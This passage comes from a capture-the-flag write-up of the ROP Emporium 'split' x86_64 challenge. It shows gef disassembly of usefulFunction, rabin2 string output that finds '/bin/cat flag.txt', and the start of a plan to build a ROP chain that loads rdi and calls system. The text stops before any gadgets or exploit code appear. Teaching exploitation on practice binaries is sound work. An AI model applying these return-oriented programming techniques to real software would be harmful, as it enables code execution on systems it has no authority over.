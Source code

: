 ```
0x00000000004006e8  pwnme
0x0000000000400742  usefulFunction
0x0000000000400760  __libc_csu_init
0x00000000004007d0  __libc_csu_fini
0x00000000004007d4  _fini
```

interesting, what's inside the `usefulFunction`..?  
```
gef➤  disas usefulFunction
Dump of assembler code for function usefulFunction:
   0x0000000000400742 <+0>:     push   rbp
   0x0000000000400743 <+1>:     mov    rbp,rsp
   0x0000000000400746 <+4>:     mov    edi,0x40084a
   0x000000000040074b <+9>:     call   0x400560 <system@plt>
   0x0000000000400750 <+14>:    nop
   0x0000000000400751 <+15>:    pop    rbp
   0x0000000000400752 <+16>:    ret
End of assembler dump.
```
oh, so it's pretty similar to the `ret2win` function from the previous challenge 
what's the string being put in the register let's see...  

```
gef➤  x/s 0x40084a
0x40084a:       "/bin/ls"
```

ah, so it's just a function to call ls using the system, I'm sure this function is present for the 
binary to present system inside the binary.  

now, let's find some useful strings in the binary using `rabin2`.

```
┌──(kali㉿kali)-[~/ctf/rop/split]
└─$ rabin2 -z split
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt
```

rabin2 is pretty cool that it also tell us the string address.  

okay, let's find ROP gadgets to craft our ROP chain, I'll be using `ROPgadget` to do that. 
but first let's see what do we need to craft our ROP chain.  

first we need to set `rdi` register to the address of the string we want to use. 
then we need to call the system function. easy enough let's find it.
